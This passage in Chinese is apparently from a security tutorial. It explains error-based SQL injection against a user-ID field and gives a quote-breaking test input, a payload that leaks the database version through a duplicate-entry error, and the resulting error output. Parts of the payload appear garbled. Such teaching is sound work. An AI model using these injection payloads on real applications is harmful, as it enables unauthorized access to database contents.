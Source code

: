 应用程序使用的 SQL 查询是:

`SELECT firstname, lastname FROM users WHERE user_id = '$id';`

![the SQL query used by the application](img/f2bd3469eb0644c5f52db36b9d051b38.png)

服务器接受来自用户的输入并返回相关值，这表明攻击者可以使用恶意输入来修改后端查询。键入`5'`，由于单引号，后端响应一个错误:

![backend responding with an error](img/0dce6757e27f4b1560a9b7407b09e6a1.png)

来自用户的输入修改后端查询，变成:

`SELECT firstname, lastname FROM users WHERE user_id = '5'';`(注意这里多余的引用)

直接在数据库服务器上执行相同的查询(仅用于测试目的)，可以看到相同的结果:

![queries on the database server](img/65c9114bb263ddd66e232e56e4da0a05.png)

![questies displayed on the database server](img/3864dbb676c57ae5cf03b8f806351174.png)

利用基于错误的 SQL 注入依赖于这样一个事实，即注入的 SQL 查询会将结果输出到数据库返回的错误消息中。例如，通过将以下有效负载注入用户 ID 字段:

`0' AND (SELECT 0 FROM (SELECT count(), CONCAT((SELECT @@version), 0x23, FLOOR(RAND(0)2)) AS x FROM information_schema.columns GROUP BY x) y) - - '`

将导致应用程序返回以下 SQL 错误消息(包含@@version 变量的值):

`Error: Duplicate entry '10.1.36-MariaDB#0' for key 'group_key'`
